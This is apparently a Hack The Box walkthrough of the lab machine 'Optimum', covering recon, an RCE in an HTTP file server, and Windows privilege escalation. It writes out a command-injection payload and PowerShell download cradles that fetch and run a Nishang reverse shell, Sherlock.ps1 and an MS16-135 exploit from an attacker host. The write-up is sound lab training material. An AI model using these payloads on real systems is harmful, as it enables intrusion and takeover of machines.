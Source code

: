 # Optimum Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA optimum 10.10.10.8``

# ${{\color{purple}Initial Foothold}}\ $

### During the web recon I found the version of the cms that is vulnerable to an RCE **:white_check_mark:**

![image](https://user-images.githubusercontent.com/123066149/219492265-45d0a04b-eee5-4467-be6a-b33f8a38eac9.png)


![image](https://user-images.githubusercontent.com/123066149/219492157-283f6b64-491f-48ff-8fa7-a6f770c0047f.png)


### I used this exploit in the first place :

https://www.exploit-db.com/exploits/49584


![image](https://user-images.githubusercontent.com/123066149/219492915-e653e5a7-f220-41b2-89de-59e80f4e45c8.png)


# ${{\color{purple}Exploitation}}\ $ 

### In a second time I exploited the vulnerability with Burp :

``%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe ping 10.10.16.5.}``


![optimum](https://user-images.githubusercontent.com/123066149/219493247-c0c21ced-4cd1-4b24-8980-c815c2e7262b.PNG)


![optimum2](https://user-images.githubusercontent.com/123066149/219493268-de16367a-282b-4e33-8fd4-3dc80e7e8fdf.PNG)


``%00{.exec|c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http://10.10.16.5:80/Nishangrev.ps1').}``

![optimum3](https://user-images.githubusercontent.com/123066149/219493604-977a134f-f22e-4aec-af01-cc72923d0390.PNG)


``IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Nishangrev.ps1')``


![optimum4](https://user-images.githubusercontent.com/123066149/219493617-ebd94c1f-597f-4e69-b246-5173dae68d41.PNG)


# ${{\color{purple}Privilege Escalation}}\ $

``grep -i function Sherlock.ps1``


![optimum5](https://user-images.githubusercontent.com/123066149/219495828-a224e6fb-3c3c-453b-acd5-52f3a9d282b7.PNG)


### Add the Find-AllVulns function of Sherlokcs at the of the script :


![optimum6](https://user-images.githubusercontent.com/123066149/219495848-d65729e6-c5a8-4ba1-b9be-75bebec3b0d0.PNG)


``IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Sherlock.ps1')``


![optimum7](https://user-images.githubusercontent.com/123066149/219495875-efce0c42-0a1e-4084-84fe-70ccf3ef2e3f.PNG)


![image](https://user-images.githubusercontent.com/123066149/219494525-8a507ea7-2543-4af2-83ba-a2802c10a443.png)


``IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/MS16-135.ps1')``


![optimum8](https://user-images.githubusercontent.com/123066149/219494679-fcd46daf-5076-4ef9-b548-ef0481f50ab3.PNG)


# ${{\color{purple}Points of Improvement}}\ $

* Know the full path of powershell :
* ``c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe``
* Use ``Sherlock.ps1`` for privileges escalations on windows
